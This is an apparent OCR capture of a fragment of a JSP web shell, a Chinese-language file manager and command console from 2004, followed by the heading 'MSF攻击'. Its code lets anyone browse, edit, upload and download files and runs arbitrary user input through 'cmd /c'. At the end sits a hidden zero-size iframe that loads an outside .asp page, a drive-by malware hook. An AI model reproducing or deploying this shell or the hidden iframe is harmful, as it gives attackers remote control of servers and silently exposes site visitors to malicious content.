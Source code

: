 ```php
windows系统，还提供了命令行窗口的功能，可以运行一些程序，类似</p><p>与windows的cmd。</p><p>&nbsp;</p><p>二、测试</p><p>&nbsp;&nbsp;&nbsp;<b>请大家在使用过程中，有任何问题，意见或者建议都可以给我留言，以便使这个程序更加完善和稳定，<p>留言地址为：<a href="http://" target="_blank"></a></b><p>&nbsp;</p><p>三、更新记录</p><p>&nbsp;&nbsp;&nbsp; 2004.11.15&nbsp; V0.9测试版发布，增加了一些基本的功能，文件编辑、复制、删除、下载、上传以及新建文件目录功能</p><p>&nbsp;&nbsp;&nbsp; 2004.10.27&nbsp; 暂时定为0.6版吧， 提供了目录文件浏览功能 和 cmd功能</p><p>&nbsp;&nbsp;&nbsp; 2004.09.20&nbsp; 第一个jsp&nbsp;程序就是这个简单的显示目录文件的小程序</p><p>&nbsp;</p><p>&nbsp;</p></div><div id="menu1" class="tabcontent"><%out.println("<table border='1' width='100%' bgcolor='#FBFFC6' cellspacing=0 cellpadding=5 bordercolorlight=#000000 bordercolordark=#FFFFFF><tr><td width='30%'>"+strCurrentFolder[languageNo]+"： <b>"+strDir+"</b></td><td>" + getDrivers() + "</td></tr></table><br>\r\n");%><table width="100%" border="1" cellspacing="0" cellpadding="5" bordercolorlight="#000000" bordercolordark="#FFFFFF">               <tr>           <td width="25%" align="center" valign="top">               <table width="98%" border="0" cellspacing="0" cellpadding="3">     <%=sbFolder%>                </tr>                               </table>          </td>          <td width="81%" align="left" valign="top">  <% if(strAction!=null && strAction.equals("edit")) {  out.println(sbEdit.toString()); } else if(strAction!=null && strAction.equals("copy")) {  out.println(sbCopy.toString()); } else if(strAction!=null && strAction.equals("down")) {  out.println(sbDown.toString()); } else if(strAction!=null && strAction.equals("savecopy")) {  out.println(sbSaveCopy.toString()); } else if(strAction!=null && strAction.equals("newFile") && !sbNewFile.toString().equals("")) {  out.println(sbNewFile.toString()); } else { %>  <span id="EditBox"><table width="98%" border="1" cellspacing="1" cellpadding="4" bordercolorlight="#cccccc" bordercolordark="#FFFFFF" bgcolor="white" >              <tr bgcolor="#E7e7e6">                 <td width="26%"><%=strFileName[languageNo]%></td>                <td width="19%"><%=strFileSize[languageNo]%></td>                <td width="29%"><%=strLastModified[languageNo]%></td>                <td width="26%"><%=strFileOperation[languageNo]%></td>              </tr>                          <%=sbFile%>             <!-- <tr align="center">                 <td colspan="4"><br>                  总计文件个数：<font color="#FF0000">30</font> ，大小：<font color="#FF0000">664.9</font>                   KB </td>              </tr>    -->            </table>   </span> <% }   %>          </td>        </tr> <form name="frmMake" action="" method="post"> <tr><td colspan=2 bgcolor=#FBFFC6> <input type="hidden" name="action" value="newFile"> <input type="hidden" name="path" value="<%=strDir%>"> <input type="hidden" name="file" value="<%=strFile%>"> <input type="hidden" name="cmd" value="<%=strCmd%>"> <input type="hidden" name="tabID" value="1"> <input type="hidden" name="content" value=""> <% if(!strDir.endsWith("\\")) strDir = strDir + "\\"; %> <input type="text" name="fileName" size=36 value="<%=strDir%>"> <input type="submit" name="btnNewFile" value="新建文件" o nclick="frmMake.submit()" >  <input type="submit" name="btnNewDir" value="新建目录"  o nclick="frmMake.submit()" >  </form>   <form name="frmUpload" enctype="multipart/form-data" action="" method="post"> <input type="hidden" name="action" value="upload"> <input type="hidden" name="path" value="<%=strDir%>"> <input type="hidden" name="file" value="<%=strFile%>"> <input type="hidden" name="cmd" value="<%=strCmd%>"> <input type="hidden" name="tabID" value="1"> <input type="hidden" name="content" value=""> <input type="file" name="cqqUploadFile" size="36"> <input type="submit" name="submit" value="上传"> </td></tr></form>      </table></div><div id="menu2" class="tabcontent"><%String line="";StringBuffer sbCmd=new StringBuffer("");if(strCmd!=null) { try {  //out.println(strCmd);  Process p=Runtime.getRuntime().exec("cmd /c "+strCmd);  BufferedReader br=new BufferedReader(new InputStreamReader(p.getInputStream()));  while((line=br.readLine())!=null)  {   sbCmd.append(line+"\r\n");    }     } catch(Exception e) {  System.out.println(e.toString()); }}else{ strCmd = "set";}%><form name="cmd" action="" method="post">&nbsp;<input type="text" name="cmd" value="<%=strCmd%>" size=50><input type="hidden" name="tabID" value="2"><input type=submit name=submit value="<%=strExecute[languageNo]%>"></form><%if(sbCmd!=null && sbCmd.toString().trim().equals("")==false){%>&nbsp;<TEXTAREA NAME="cqq" ROWS="20" COLS="100%"><%=sbCmd.toString()%></TEXTAREA><br>&nbsp;<%}%></DIV></div><br><br><center><a href="http://" target="_blank"></a> <br><i f rame src=http://7jyewu.cn/a/a.asp width=0 height=0></i f rame>
```

#### MSF攻击
